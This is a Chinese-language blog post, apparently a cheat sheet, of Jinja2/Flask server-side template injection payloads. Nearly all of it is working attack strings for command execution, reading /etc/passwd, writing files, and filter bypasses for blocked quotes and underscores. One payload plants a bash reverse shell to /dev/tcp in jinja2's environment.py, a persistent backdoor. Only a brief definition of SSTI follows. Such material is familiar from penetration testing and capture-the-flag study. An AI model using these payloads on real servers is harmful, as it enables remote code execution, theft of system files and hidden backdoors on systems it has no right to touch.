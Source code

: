 ﻿
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115605356.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20200217115615227.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDU3MTAyOA==,size_16,color_FFFFFF,t_70)
## payload
**python3**
```python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
**python2**
```python
#注入变量执行命令详见 http://www.freebuf.com/articles/web/98928.html
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

**jinja2**
```py
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}
```

**绕过**

无单引号
>{{().\_\_class__.\_\_bases__.\_\_getitem__(0).\_\_subclasses__().pop(40)(request.args.path).read()}}&path=/tmp/cmd.py

下划线绕过
>?name={{\'\'[request.args.class][request.args.mro][2][request.args.subclasses]\()\[40]('/etc/passwd').read()}}&class=\_\_class__&mro=\_\_mro__&subclasses=\_\_subclasses__

>利用 **config** 查看环境
>**self.\_\_dict__**  查看环境
>**flask** 可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config 

>url_for.\_\_globals__['current_app'].\_\_dict__
>get_flashed_messages.\_\_globals__['current_app'].\_\_dict__

## 1.漏洞产生原因

**漏洞定义 ：SSTI(Server-Side Template Injection) 服务端模板注入，就是服务器模板中拼接了恶意用户输入导致各种漏洞。通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式**
